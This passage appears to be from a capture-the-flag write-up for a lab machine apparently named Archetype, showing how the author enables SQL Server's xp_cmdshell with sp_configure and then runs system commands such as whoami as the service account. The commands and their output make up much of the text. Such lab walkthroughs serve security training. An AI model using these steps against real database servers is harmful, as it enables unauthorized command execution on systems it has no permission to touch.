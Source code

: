 
## Running System Commands from SQL Server Shell

Reading through official Microsoft documentation, I found that we can actually [run system commands from within SQL Server using the `xp_cmdshell`](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15). This is exactly what I was looking for as it enabled me to be able to interact with the remote target system. When I attempted to run this cmdlet, I received the following error:

```bash
SQL> xp_cmdshell "echo test"
 
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Seems that we need to enable the use of the command somehow. Reading the [Microsoft documentation](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15#remarks) in greater depth, I found that the cmdlet is disabled by default. It also gave me the information I needed in order to enable it:

> `xp_cmdshell` is a very powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the Policy-Based Management or by executing `sp_configure`. For more information, see [Surface Area Configuration](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration?view=sql-server-ver15) and [`xp_cmdshell` Server Configuration Option](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

I ran the following command to enable it:

```bash
sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

I then ran `reconfigure` as requested. I was now able to run any commands on the machine.
Since I speak a little bit of Batch, I ran a command to see which directory we’re currently in:

```bash
SQL> xp_cmdshell "echo The current directory is %CD%"
output                                                                             
 
--------------------------------------------------------------------------------   
 
The current directory is C:\Windows\system32                                       
SQL>whoami
output                                                                             
 
--------------------------------------------------------------------------------   
 
archetype\sql_svc 
```

